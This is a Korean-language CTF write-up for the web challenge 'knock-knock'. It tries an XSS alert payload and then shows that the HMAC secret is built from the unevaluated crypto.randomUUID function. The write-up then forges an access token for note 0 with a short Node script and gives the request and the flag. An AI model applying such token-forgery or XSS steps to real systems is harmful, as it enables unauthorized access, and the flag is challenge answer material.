

# web/knock-knock

# Write-up

## XSS?



처음 소스코드와 이 화면을 보았을 시, 먼저 XSS공격을 떠올릴 수 있다.

그래서 다음과 같은 코드를 시도해보았다.

```jsx
<script>alert(1)</script>
```

해당 코드를 적은 후, Create 버튼을 눌러 넣었고, 정상대로 alert가 작동이 되는 걸 확인할 수 있다.

그러나, 해당 코드를 자세히 보았을때, 클라이언트에서 token 및 env 변수를 탈취할 수 없다는 점에서 

XSS공격은 아니라는 말이 된다.

## 본 풀이

이번 문제는 코드를 잘 보고, crypto의 함수에 대한 대략적 파악이 중요하다.

id는 생성당시에 바로 만들어지기에, 0이 가장 확실하며, 이에 대한 token이 있어야 해당 포스트에 접근할 수 있는 구조이다.

그렇다면, token을 만드는 코드를 다시 중점적으로 보자.

```jsx
constructor() {
  this.notes = [];
  this.secret = `secret-${crypto.randomUUID}`;
}
```

```jsx
generateToken(id) {
  return crypto
    .createHmac('sha256', this.secret)
    .update(id.toString())
    .digest('hex');
}
```

constructor내부에서 secret변수에 secret-${crypto.randomUUID}를 저장하고 있다.

그리고 generateToken함수에서 id를 받고 이 id를 sha256으로 암호화하고 있음을 알 수 있다.

그러나 코드를 끝까지 잘보라는 이유가 여기서 나온다.

console을 이용해 crypto.randomUUID를 조회하면 다음과 같이 나온다.

```jsx
function randomUUID() { [native code] }
```

즉, 함수라는 말이다.

그렇다면, secret변수에는 어떻게 저장되어 있는지 다음과 같이 테스트 코드를 작성해 확인해보았다.

```jsx
const crypto = require('crypto');

let secret = `secret-${crypto.randomUUID}`
console.log(`secret-${crypto.randomUUID}`)
```

출력값은 다음과 같다

```
secret-function randomUUID(options) {
  if (options !== undefined)
    validateObject(options, 'options');
  const {
    disableEntropyCache = false,
  } = options || {};

  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');

  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();
}
```

즉, 랜덤한 UUID가 아닌 그져 함수와 함께 묶여져서 나오고 있는 것이다.

그렇다면 이 출력값을 비밀키로 쓰고 있다는 말이므로, 이 비밀키를 이용해서 id인 0을 암호화 해보자

```jsx
const crypto = require('crypto');

let secret = `secret-${crypto.randomUUID}`;
let id = 0

console.log(`secret-${crypto.randomUUID}`)
console.log(crypto.createHmac('sha256', secret).update(id.toString()).digest('hex'))
```

```
7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```

이것이 우리가 원하는 token값이다.

그러면 다음과 같은 url에 붙여서 GET해보면 풀린다.

```
/noteid=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```

dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}
